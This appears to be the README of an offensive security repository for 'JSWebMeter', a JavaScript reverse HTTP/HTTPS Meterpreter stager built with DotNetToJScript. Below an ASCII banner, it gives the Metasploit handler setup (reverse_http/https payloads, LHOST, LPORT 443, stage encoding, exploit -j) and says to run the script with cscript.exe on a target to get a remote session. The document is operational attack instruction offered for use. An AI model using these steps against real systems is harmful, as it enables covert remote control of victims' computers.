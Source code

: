 ```
     ____. ___________      __      ___.       _____          __                
    |    |/   _____/  \    /  \ ____\_ |__    /     \   _____/  |_  ___________ 
    |    |\_____  \\   \/\/   // __ \| __ \  /  \ /  \_/ __ \   __\/ __ \_  __ \
/\__|    |/        \\        /\  ___/| \_\ \/    Y    \  ___/|  | \  ___/|  | \/
\________/_______  / \__/\  /  \___  >___  /\____|__  /\___  >__|  \___  >__|   
                 \/       \/       \/    \/         \/     \/          \/       
```
### JavaScript Reversed HTTP/HTTPS Meterpreter Stager - by Cn33liz 2017
CSharp Meterpreter Stager build by Cn33liz and embedded within JavaScript using DotNetToJScript from James Forshaw
https://github.com/tyranid/DotNetToJScript

This Stager is Proxy aware and should run on x86 as well as x64

```
Usage:
Change RHOST, RPORT and UseHTTPS to suit your needs.

Start Msfconsole:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https <- When running HTTPS Payload from x64 version of cscript.exe
set PAYLOAD windows/x64/meterpreter/reverse_http <- When running HTTP Payload from x64 version of cscript.exe
set PAYLOAD windows/meterpreter/reverse_https <- When running HTTPS Payload from x86 version of cscript.exe
set PAYLOAD windows/meterpreter/reverse_http <- When running HTTP Payload from x86 version of cscript.exe
set LHOST 0.0.0.0
set LPORT 443
set EnableUnicodeEncoding true
set EnableStageEncoding true
set ExitOnSession false
exploit -j 

Then run: cscript.exe JSWebMeter.js on Target
```
